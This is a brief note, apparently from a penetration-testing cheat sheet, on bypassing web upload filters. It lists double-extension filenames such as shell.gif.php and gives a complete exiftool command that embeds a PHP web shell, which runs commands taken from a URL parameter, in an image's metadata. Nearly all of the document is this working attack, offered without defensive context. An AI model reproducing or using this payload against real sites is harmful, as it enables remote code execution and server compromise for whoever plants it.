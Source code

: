 Shell bypass some case for filter
1. shell.gif.php
2. shell.jpg.php

We need embeded php code in images as:

Create malicous image file in rce.jpg by exiftool

`exiftool -Comment='<h1>PHP Shell </h1><?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg`
